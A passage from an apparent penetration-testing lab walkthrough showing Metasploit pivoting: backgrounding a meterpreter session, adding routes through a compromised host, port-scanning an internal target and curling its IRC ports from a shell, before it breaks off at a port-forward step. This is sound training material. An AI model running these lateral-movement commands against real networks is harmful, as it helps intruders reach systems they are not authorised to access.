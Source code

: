 Command:
`meterpreter> background`

Alternately we can manually add a `route.

Command:
`msf5> route add 192.142.193.1 255.255.255.0 3`
`msf5> route add 192.161.62.1 255.255.255.0 3`

Here's a break down of the above.
`route` is the command.
`add` is the option.
`192.x.x.x` is the IP range. In the second command, the IP range is our attacking machine range.
`255.255.255.0` is our subnet for the IP range, also know as a /24.
`3` at the end is very important, this is the session we are using to leverage this functionality with. We lose the session, we lose the route.

We can then issue `route print` to verify that everything has been entered correctly.

{{< figure src="__GHOST_URL__/content/images/2020/01/image-37.png" >}}

Now that our `route`s are setup, we can use the `portscan` modules to scan our newly found target, `192.142.193.3`.

Command:
`msf5> use auxiliary/scanner/portscan/tcp`

Here we set our `rhost`.

Command:
`msf5> set rhosts 192.142.193.3`

Then `run` the module.

{{< figure src="__GHOST_URL__/content/images/2020/01/image-38.png" >}}

We see there are three ports open but don't know the services. We can `curl` these ports on the target to get an idea of what might be running. We will drop into a `shell` on our already compromised host and issue some curls.

Command:
`msf5> sessions -i 1`
`meterpreter> shell`

Once inside we curl our target

Command:
`curl 192.142.193.3:6667`
`curl 192.142.193.3:6697`
`curl 192.142.193.3:8067`

{{< figure src="__GHOST_URL__/content/images/2020/01/image-39.png" >}}

We get the same result back for each port. It's an IRC port expecting a connection. We need to do two things, setup routes to our new target and we need to setup a port forward to help identify the services. 

This will allow us to map our ports to remote ports. In this case we will map our local port of 1234 to the remote port of 6667. 
